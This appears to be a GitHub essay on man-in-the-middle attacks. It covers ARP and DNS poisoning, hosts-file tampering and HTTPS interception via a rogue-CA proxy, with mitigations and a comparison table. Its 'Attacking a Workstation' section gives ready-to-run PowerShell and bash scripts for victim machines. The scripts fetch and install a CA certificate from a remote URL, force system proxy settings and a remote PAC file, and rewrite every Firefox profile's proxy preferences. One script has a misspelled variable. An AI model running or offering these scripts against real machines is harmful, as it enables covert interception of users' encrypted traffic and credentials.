



# Man-In-The-Middle (MITM) Attacks in Network Communications

## Table of content
- [Man-In-The-Middle (MITM) Attacks in Network Communications](#man-in-the-middle-mitm-attacks-in-network-communications)
  - [Introduction](#introduction)
  - [1. Attack on Local LAN or WLAN Network via ARP Poisoning](#1-attack-on-local-lan-or-wlan-network-via-arp-poisoning)
    - [Technical Details](#technical-details)
      - [ARP Attacks](#arp-attacks)
      - [Examples of Attacks](#examples-of-attacks)
      - [Mitigations](#mitigations)
  - [2. Attack on Local Network via DNS Poisoning](#2-attack-on-local-network-via-dns-poisoning)
    - [Technical Details](#technical-details-1)
      - [DNS Spoofing Techniques](#dns-spoofing-techniques)
      - [Protection Strategies](#protection-strategies)
  - [3. Attack on Local Machine via Modification of /etc/hosts or Local DNS Change](#3-attack-on-local-machine-via-modification-of-etchosts-or-local-dns-change)
    - [Technical Details](#technical-details-2)
    - [Modification Process](#modification-process)
  - [4. Attack on Local Machine via Installation of an HTTP MITM Proxy](#4-attack-on-local-machine-via-installation-of-an-http-mitm-proxy)
    - [Technical Details](#technical-details-3)
    - [How a MitM Proxy Works](#how-a-mitm-proxy-works)
      - [Becoming a Trusted CA](#becoming-a-trusted-ca)
      - [Identifying the Domain Name](#identifying-the-domain-name)
      - [Handling Cases Where the CN Differs from the Remote Host Name: Subject Alternative Name (SAN)](#handling-cases-where-the-cn-differs-from-the-remote-host-name-subject-alternative-name-san)
      - [Virtual Hosting and TLS: Server Name Indication (SNI)](#virtual-hosting-and-tls-server-name-indication-sni)
    - [Step-by-Step Operation](#step-by-step-operation)
- [Attacking a Workstation](#attacking-a-workstation)
  - [Windows](#windows)
    - [1. Analyze Which Browsers Are Installed on the System](#1-analyze-which-browsers-are-installed-on-the-system)
    - [2. Download and Install a CA Certificate for the Proxy](#2-download-and-install-a-ca-certificate-for-the-proxy)
    - [3. Install a System-wide or Browser-specific Proxy](#3-install-a-system-wide-or-browser-specific-proxy)
  - [Linux](#linux)
    - [1. Analyze Which Browsers Are Installed on the System](#1-analyze-which-browsers-are-installed-on-the-system-1)
    - [2. Download and Install a CA Certificate for the Proxy](#2-download-and-install-a-ca-certificate-for-the-proxy-1)
    - [3. Install a System-wide or Browser-specific Proxy](#3-install-a-system-wide-or-browser-specific-proxy-1)
- [Conclusion](#conclusion)
  - [Key Points of Described Attacks](#key-points-of-described-attacks)
  - [Concluding Thoughts](#concluding-thoughts)

## Introduction

Man-In-The-Middle (MITM) attacks pose a serious threat to the security of network communications, allowing attackers to intercept, modify, or redirect data transmitted between two parties without their consent. This essay examines in detail four main scenarios of MITM attacks, with a particular focus on HTTP/S communications.

## 1. Attack on Local LAN or WLAN Network via ARP Poisoning

ARP Poisoning, also known as ARP Spoofing, is an attack technique where the attacker sends falsified ARP (Address Resolution Protocol) messages within a local network. This allows the attacker to associate their MAC address with the IP address of another machine on the network, thereby intercepting data intended for that machine.

### Technical Details

The Address Resolution Protocol (ARP) plays a crucial role in IP networks, enabling devices to discover the MAC (Media Access Control) address associated with a given IP address within the same Local Area Network (LAN). It operates by broadcasting an ARP request in the network, asking the device with the specified IP address to respond with its MAC address. Once the response is received, the requesting device associates the MAC address with the IP address in its ARP cache for a period of time, facilitating direct communication within the LAN.


#### ARP Attacks

Despite its effectiveness and simplicity, the ARP protocol is vulnerable to several types of attacks, mainly due to its lack of authentication in the response phase. This can lead to:

1. **ARP Spoofing/Poisoning**: An attacker sends unsolicited ARP messages to a host, making it believe the attacker's MAC address is associated with the IP address of another host (often the gateway). This allows the attacker to intercept, modify, or block data intended for the destination IP address.
2. **ARP Flooding**: By sending a large number of ARP requests, an attacker can overload a device's ARP table, potentially causing a denial of service.

#### Examples of Attacks

- **Man-In-The-Middle (MITM)**: Using ARP spoofing, an attacker can position themselves between two communicating parties, intercepting and potentially altering the data exchanged.
- **Denial of Service (DoS)**: By altering ARP entries to point to a non-existent MAC, an attacker can prevent a host from reaching other devices on the network.

#### Mitigations

Various strategies can be adopted to mitigate ARP attacks:

1. **Static ARP Entries**: Setting static ARP entries for critical devices reduces the risk of ARP poisoning but is not scalable in large networks.
2. **Dynamic ARP Inspection (DAI)**: Implemented on network switches, DAI checks and verifies ARP responses against a trust table, discarding responses that do not match.
3. **ARP Spoofing Detection Tools**: Tools like Arpwatch monitor ARP traffic in the network, detecting and alerting administrators of suspicious activity or unusual changes.
4. **Private VLAN (PVLAN)**: Isolating devices in a VLAN can limit the reach of an attacker, confining them to a network segment.

## 2. Attack on Local Network via DNS Poisoning

DNS Poisoning, or DNS Spoofing, is an attack that exploits vulnerabilities in the Domain Name System (DNS) to redirect users from legitimate sites to malicious sites controlled by the attacker.

### Technical Details

The Domain Name System (DNS) is fundamental to the functioning of the Internet, translating human-readable domain names into the IP addresses required for network communication. However, this critical infrastructure is vulnerable to DNS Spoofing (or DNS Cache Poisoning), an attack technique that exploits weaknesses in the DNS protocol to divert users to malicious sites, with potential consequences such as data theft, malware spreading, and phishing.



#### DNS Spoofing Techniques

1. **Attack on DNS Server**: The attacker exploits vulnerabilities in the DNS server software to inject falsified DNS records into the cache, redirecting requests to a server controlled by the attacker.
2. **Interception**: By listening to DNS traffic on unsecured networks, an attacker can intercept and modify DNS requests before they reach the intended server.
3. **Man-In-The-Middle (MITM) Attacks**: The attacker positions themselves between the user and the DNS server, modifying DNS responses to redirect the user to malicious sites.
4. **Modifying DNS Server Settings**: Through malware, malicious scripts, or through physical access to the device, attackers can change the DNS settings of the victim's device to point to a DNS server under their control. This fake DNS server can then resolve the requested domain names into malicious IP addresses, redirecting users to phishing sites or servers distributing malware.
5. **Tampering with System Resolver**: By altering the DNS resolver configuration files on the operating system (such as the resolv.conf file on Unix/Linux systems or registry settings on Windows), attackers can divert all DNS requests through servers of their choice. This approach can be particularly insidious, as the changes may not be immediately obvious to the user or system administrator.

#### Protection Strategies

Protecting against DNS

 Spoofing requires a multi-layered approach that includes both server and client security.

1. **Use of DNSSEC (DNS Security Extensions)**: DNSSEC adds a layer of authentication to DNS responses through the digital signing of DNS records. This ensures the integrity and authenticity of DNS responses, effectively preventing DNS Spoofing.
2. **Strict DNS Server Validation**: DNS servers should be configured to limit recursion and not respond to suspicious requests. Implementing rate limiting for DNS requests can also help mitigate attacks.
3. **Use of Secure Connections**: Adopting secure protocols such as DNS-over-HTTPS (DoH) or DNS-over-TLS (DoT) encrypts DNS requests, preventing interception and manipulation of them on unsecured networks.
4. **Regular Updating and Patching**: Keeping DNS servers updated with the latest security patches is crucial to protect against exploitable vulnerabilities.
5. **User Education**: Informing users about the risks associated with malicious websites and the importance of verifying the validity of SSL certificates can reduce the effectiveness of phishing attacks resulting from DNS Spoofing.
6. **Traffic Monitoring and Analysis**: Implementing advanced DNS traffic monitoring tools can help identify and mitigate attack attempts promptly, analyzing abnormal patterns or suspicious DNS responses.

## 3. Attack on Local Machine via Modification of /etc/hosts or Local DNS Change

An extension to local DNS corruption is modifying the `/etc/hosts` file or local DNS server can redirect the victim's requests to sites controlled by the attacker, allowing interception or manipulation of data.

### Technical Details

The /etc/hosts file is a critical component of Unix and Linux operating systems, used to map IP addresses to domain names before the system performs a query to the DNS server. Modifying the /etc/hosts file can be a tactic employed by both attackers and system administrators for various purposes, including redirecting network traffic or blocking certain sites.



### Modification Process

Modifying the /etc/hosts file requires administrator or root privileges, as it is located in a protected directory. Attackers who have gained access to the system with these privilege levels can add, modify, or remove entries in the file to divert traffic intended for specific domains to new IP addresses, often for malicious purposes such as phishing or malware distribution.

## 4. Attack on Local Machine via Installation of an HTTP MITM Proxy

Installing an HTTP MITM proxy on a local machine allows the attacker to intercept and modify HTTP/S traffic, even if protected by SSL/TLS, through the installation of a proxy's CA certificate.

### Technical Details

- **MITM Proxy**: An intermediary server that intercepts traffic between a client and a server, decrypting and then re-encrypting the transmitted data.
- **SSL/TLS Interception**: Thanks to the installation of a fake but trusted CA certificate by the victim, the proxy can decrypt HTTPS traffic.
- **Installation on Linux**:

```bash
# Install mitmproxy
sudo apt-get update
sudo apt-get install mitmproxy
```

- **Installation on Windows** (PowerShell):

```powershell
# Install mitmproxy via Chocolatey
choco install mitmproxy
```

### How a MitM Proxy Works

A MitM proxy relies on a fundamental deception: it presents itself as the server to the client and as the client to the server, positioning itself in the middle to decode the traffic from both parties. The tricky part is that the system of Certificate Authorities (CA) is designed to prevent exactly this type of attack, allowing a trusted third party to cryptographically sign server certificates to verify their authenticity. If the signature does not match or comes from an untrustworthy party, a secure client will simply terminate the connection and refuse to proceed.

### Becoming a Trusted CA

The MitM proxy's answer to this problem is to become a trusted Certificate Authority. It includes a complete implementation of a CA that generates interception certificates on the fly. To make the client trust these certificates, it's necessary to manually register the MitM proxy's CA as a trusted CA on the device.

#### Identifying the Domain Name

To proceed, it's necessary to know the domain name to use in the interception certificate. mitmproxy overcomes this hurdle using upstream certificate sniffing: it pauses the conversation with the client and starts a simultaneous connection with the server. After completing the TLS handshake with the server and inspecting the certificates used, a MitM proxy uses the Common Name in the upstream certificates to generate the "falsified" certificate for the client.

#### Handling Cases Where the CN Differs from the Remote Host Name: Subject Alternative Name (SAN)

Sometimes, the Common Name of the certificate is not actually the hostname to which the client is connecting. This is due to the Subject Alternative Name field in the certificate, which allows specifying an arbitrary number of alternative domains. If the expected domain matches one of these, the client will proceed even if the domain does not match the CN of the certificate. The solution is simple: in addition to the CN, also extract the SANs from the upstream certificate

 and add them to the generated fake certificate.

#### Virtual Hosting and TLS: Server Name Indication (SNI)

SNI allows the client to specify the name of the remote server at the start of the TLS handshake, allowing the server to select the correct certificate to complete the process. SNI presents a challenge for the process of upstream certificate sniffing because, if you connect without using SNI, you get a default certificate that might have nothing to do with the certificate expected by the client. The solution is another ingenious complication: after the client connects, allow the TLS handshake to proceed until just after the SNI value has been transmitted. At this point, you can pause the conversation and start an upstream connection using the correct SNI value.

### Step-by-Step Operation

Here's the full flow of HTTPS redirected via a MitM proxy:

1. The client establishes a connection with mitmproxy and sends an HTTP CONNECT request.
2. The proxy responds with a "200 Connection Established", as if it had set up the CONNECT tunnel.
3. The client, believing it is talking to the remote server, starts the TLS connection using SNI to indicate the hostname it is connecting to.
4. The proxy connects to the server and establishes a TLS connection using the SNI hostname indicated by the client.
5. The server responds with the corresponding certificate, which contains the necessary CN and SAN values to generate the interception certificate.
6. The proxy generates the interception certificate and continues the TLS handshake with the client, previously paused at point 3.
7. The client sends the request over the established TLS connection.
8. The proxy forwards the request to the server over the TLS connection initiated at point 4.



## Attacking a Workstation

### Windows

#### 1. Analyze Which Browsers Are Installed on the System

This PowerShell script searches for the most common browsers in the Programs directories:

```powershell
# List of common browsers to search for in the Programs directories
$browsers = @("Google\Chrome", "Mozilla Firefox", "Internet Explorer", "Microsoft\Edge")
$paths = @("C:\Program Files", "C:\Program Files (x86)")

foreach ($path in $paths) {
    foreach ($browser in $browsers) {
        $fullPath = Join-Path -Path $path -ChildPath $browser
        if (Test-Path $fullPath) {
            Write-Output "Browser found: $browser in $fullPath"
        }
    }
}
```

#### 2. Download and Install a CA Certificate for the Proxy

To add a CA certificate to the trusted roots on Windows at the user level:

```powershell
# Download the CA certificate from GitHub
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/user/path/certificate.crt" -OutFile "C:\Users\Public\certificate.crt"

# Install the certificate in the Current User's Root store
$certPath = "C:\Users\Public\certificate.crt"
$certStore = New-Object System.Security.Cryptography.X509Certificates.X509Store -ArgumentList "Root", "CurrentUser"
$certStore.Open([System.Security.Cryptography.X509Certificates.OpenFlags]::ReadWrite)
$cert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 -ArgumentList $certPath
$certStore.Add($cert)
$certStore.Close()
```

#### 3. Install a System-wide or Browser-specific Proxy

##### Internet Explorer, Chrome, and Other Browsers That Use the System Proxy

To set a system-wide proxy using PowerShell:

```powershell
# Set the system-wide proxy
$proxyServer = "http://127.0.0.1:8080" # Your proxy URL
$proxyEnable = 1 # 1 to enable proxy, 0 to disable

$hkroot = "HKLM"
# If the user is Administrator, then we can change the proxy at the system level
# Otherwise, we can change the proxy at the user level

if (-NOT (
    [Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()
    ).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) 
{
    $hkroot = "HKCU"
    Set-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings' -Name ProxySettingsPerUser -Value 0
    
}

# Set the proxy settings in the registry 
Set-ItemProperty -Path "${hkroot}:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyServer -Value $proxyServer
Set-ItemProperty -Path "${hkroot}:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyEnable -Value $proxyEnable

# Bypass proxy for local addresses
Set-ItemProperty -Path "${hkroot}:\Software\Microsoft\Windows\CurrentVersion\Internet Settings

" -Name ProxyOverride -Value "<local>"

# Refresh Internet Explorer settings to apply the proxy settings immediately
Invoke-Expression -Command "cmd /c 'inetcpl.cpl,,4'"
```

##### Firefox and Other Mozilla-based Browsers

Unlike other browsers that use the operating system's proxy settings by default, Mozilla-based browsers manage their own connection settings through a specific `prefs.js` file, specific to a particular browser profile.

Since a user can have more than one profile, the only way to set a proxy through modification of this file necessarily begins with finding all preference files for a user and changing the settings of each of them.

On Windows, these files are located in the folder located at `C:\Users\<user>\AppData\Mozilla\Firefox\Profiles\<profile>\prefs.js`.

```powershell
# Set the system-wide proxy
$proxyType = 1 # 1 is HTTP
$proxyServer = "127.0.0.1" # Proxy URL
$proxyPort = 8080 # Proxy port

# Define the new proxy settings
$newProxySettings = @(
    "user_pref(""network.proxy.http"", ""$proxyServer"");",
    "user_pref(""network.proxy.http_port"", $proxyPort);",
    "user_pref(""network.proxy.share_proxy_settings"", true);",
    "user_pref(""network.proxy.ssl"", ""$proxyServer"");",
    "user_pref(""network.proxy.ssl_port"", $proxyPort);",
    "user_pref(""network.proxy.type"", $proxyType);"
)

# Find all prefs.js files under the Mozilla profiles directory
$prefsFiles = Get-ChildItem -Path "${env:APPDATA}\Mozilla\Firefox\Profiles" -Filter prefs.js -Recurse

foreach ($file in $prefsFiles)
{
    # Read the content of prefs.js
    $content = Get-Content -Path $file.FullName

    # Remove existing proxy settings
    $content = $content | Where-Object {
        $_ -notmatch 'network.proxy.http"|network.proxy.http_port"|network.proxy.share_proxy_settings"|network.proxy.ssl"|network.proxy.ssl_port"|network.proxy.type"'
    }

    # Add the new proxy settings
    $content += $newProxySettings

    # Write the updated content back to prefs.js
    Set-Content -Path $file.FullName -Value $content
}
```

### Linux

#### 1. Analyze Which Browsers Are Installed on the System

To check for the presence of common browsers:

```bash
# Check for the presence of common browsers
browsers=("firefox" "google-chrome" "chromium")
for browser in "${browsers[@]}"; do
    if command -v $browser &> /dev/null; then
        echo "Browser found: $browser"
    fi
done
```

#### 2. Download and Install a CA Certificate for the Proxy

To install a new CA certificate system-wide on Debian-based systems:

```bash
# Download the CA certificate from GitHub
wget https://raw.githubusercontent.com/user/path/certificate.crt -O /usr/local/share/ca-certificates/custom_certificate.crt

# Update CA certificates
sudo update-ca-certificates
```

#### 3. Install a System-wide or Browser-specific Proxy

##### Internet Explorer, Chrome, and Other Browsers That Use the System Proxy

The proxy is set at the user level via NetworkManager using `nmcli`. The script 

```bash
#!/bin/sh

# Find the device name for the default route (0.0.0.0)
default_device=$(route -n | awk '$1 == "0.0.0.0" {print $8; exit}')

# Ensure that the device (gateway) was found
if [ -z "$default_device" ]; then
    echo "Default route device not found."
    exit 1
fi
echo "Default device: $default_device"

# Find the network connection name with nmcli
connection_name=$(nmcli -t -f GENERAL.CONNECTION device show "$default_device" | cut -d: -f2)

# Ensure that the connection was found
if [ -z "$connection_name" ]; then
    echo "Connection name for device $default_device not found."
    exit 1
fi

echo "Connection name: $connection_name"

# Set the system-wide proxy via NetworkManager
nmcli connection modify "$connection_name" proxy.method auto
nmcli connection modify "$connection_name" proxy.browser-only no
nmcli connection modify "$connection_name" proxy.pac-url https://raw.githubusercontent.com/user/path/proxy.pac

# Reactivate the connection
nmcli connection down "$connection_name"
nmcli connection up "$connection_name"
```

In the script for Linux, we opted to use a Proxy Auto-Config (PAC) script, which offers incredible flexibility in managing proxy configurations. The PAC script, indeed, is the real mastermind behind the proxy configuration

, as it dynamically defines how internet traffic should be routed based on specific rules. This approach not only allows for advanced customization of internet traffic routing but also gives attackers the ability to dynamically alter proxy settings without the need to access the victim's device again.

##### Firefox and Other Mozilla-based Browsers

Unlike other browsers that use the operating system's proxy settings by default, Mozilla-based browsers manage their own connection settings through a specific `prefs.js` file, specific to a particular browser profile.

Since a user can have more than one profile, the only way to set a proxy through modification of this file necessarily begins with finding all preference files for a user and changing the settings of each of them.

On Linux, these files are located in the folder located at `/home/<user>/.mozilla/Firefox/Profiles/<profile>/prefs.js`.

```shell
#!/bin/bash

proxy_address="127.0.0.1"
proxy_port=8080
proxy_type=1

# Define new proxy settings
read -r -d '' newProxySettings << EOM
user_pref("network.proxy.http", "$proxy_proxy_address");
user_pref("network.proxy.http_port", $proxy_port);
user_pref("network.proxy.share_proxy_settings", true);
user_pref("network.proxy.ssl", "$proxy_address");
user_pref("network.proxy.ssl_port", $proxy_port);
user_pref("network.proxy.type", $proxy_type);
EOM

# Find all prefs.js files in Mozilla profiles under /home
find /home -type f -name "prefs.js" 2>/dev/null | while read -r file; do
    # Remove existing proxy settings
    sed -i '/network.proxy.http\|network.proxy.http_port\|network.proxy.share_proxy_settings\|network.proxy.ssl\|network.proxy.ssl_port\|network.proxy.type/d' "$file"
    
    # Append the new proxy settings
    echo "$newProxySettings" >> "$file"
done
```

## Conclusion

The following table summarizes the pros and cons of the various attacks we have presented: ARP Spoofing, DNS Spoofing, local modifications to DNS or hosts files, and the installation of an HTTP proxy with a false SSL certificate:

| Attack                  | Attack Vector | Privilege Level    | Network IDS Detectability | Pros                                                  | Cons                                                    |
|-------------------------|---------------|--------------------|---------------------------|-------------------------------------------------------|---------------------------------------------------------|
| ARP Spoofing            | Network       | User               | Medium                    | Easy to execute with available tools.                 | Detectable by specialized software and modern switches. |
| DNS Spoofing            | Network       | User               | Medium/High               | Can affect many users simultaneously.                 | Mitigated by DNSSEC and integrity checks.               |
| Local DNS Modification  | Local         | Administrator/Root | Low                       | Effective on individual devices without network need. | Requires access to the target device.                   |
| Hosts File Modification | Local         | Administrator/Root | Low                       | Simple to implement on compromised devices.           | Limited to individual devices; easily reversible.       |
| HTTP Proxy Installation | Local/Network | User               | High                      | Allows detailed control of HTTPS traffic.             | Detectable through SSL certificate fingerprint.         |

### Key Points of Described Attacks

- **ARP Spoofing**: This attack is relatively simple to execute and can be devastating within a LAN, but it's also easily detectable by IDSs that monitor anomalies in ARP traffic or by network security solutions that prevent ARP poisoning.
- **DNS Spoofing**: Although powerful for diverting users on a scale, the effectiveness of DNS Spoofing is significantly reduced by technologies like DNSSEC, which ensure the authenticity of DNS responses.
- **Local DNS and Hosts File Modification**: These methods require administrator or root-level access on the victim device, limiting their use to already compromised devices or those to which the attacker has physical access. They are difficult to detect at the network level but can be identified through system monitoring or internal security audits.
- **HTTP Proxy Installation with Fake SSL Certificate**: Using a MITM proxy to intercept HTTPS traffic is a sophisticated method that offers detailed control over the victim's network activity. However, the digital fingerprint of the SSL certificate can be a clear sign of compromise when analyzed by an IDS configured to recognize untrusted or anomalous certificates.

### Concluding Thoughts

MITM attacks represent a serious threat to the security of online communications. Understanding the various attack scenarios and associated mitigation techniques is essential for protecting networks and user data. Implementing robust security measures, along with user awareness and education, is key to effectively countering these threats.